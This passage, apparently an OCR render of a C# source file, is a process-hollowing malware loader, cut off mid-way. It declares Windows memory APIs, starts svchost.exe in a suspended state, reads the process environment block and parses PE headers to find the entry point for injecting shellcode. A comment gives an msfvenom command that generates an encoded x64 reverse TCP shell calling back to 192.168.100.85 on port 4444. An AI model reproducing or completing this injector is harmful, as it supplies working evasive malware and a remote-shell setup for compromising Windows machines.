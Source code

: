 ```csharp
            ref uint retlen
        );

        // http://www.pinvoke.net/default.aspx/kernel32/ReadProcessMemory.html
        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool ReadProcessMemory(
            IntPtr hProcess,
            IntPtr lpBaseAddress,
            [Out] byte[] lpBuffer,
            int dwSize,
            out IntPtr lpNumberOfBytesRead
        );

        // http://www.pinvoke.net/default.aspx/kernel32/WriteProcessMemory.html
        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool WriteProcessMemory(
            IntPtr hProcess,
            IntPtr lpBaseAddress,
            byte[] lpBuffer,
            Int32 nSize,
            out IntPtr lpNumberOfBytesWritten
        );

        // https://learn.microsoft.com/en-us/windows/win32/procthread/process-creation-flags
        static uint CREATE_SUSPENDED = 0x00000004;

        // https://learn.microsoft.com/en-us/windows/win32/procthread/zwqueryinformationprocess
        static int ProcessBasicInformation = 0x00000000;

        static void Main(string[] args)
        {

            STARTUPINFO si = new STARTUPINFO();
            PROCESS_INFORMATION pi;
            SECURITY_ATTRIBUTES sa = new SECURITY_ATTRIBUTES();

            bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", ref sa, ref sa, false, 0x4, IntPtr.Zero, null, ref si, out pi);

            PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
            uint tmp = 0;
            IntPtr hProcess = pi.hProcess;
            ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);

            IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebAddress + 0x10);

            byte[] addrBuf = new byte[IntPtr.Size];
            IntPtr nRead = IntPtr.Zero;
            ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);

            IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));

            byte[] data = new byte[0x200];
            ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);

            uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);
            uint opthdr = e_lfanew_offset + 0x28;
            uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);
            IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);

            IntPtr entryPoint = IntPtr.Zero;
            // msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=192.168.100.85 -f csharp -v shellcode (ENCODED)
```
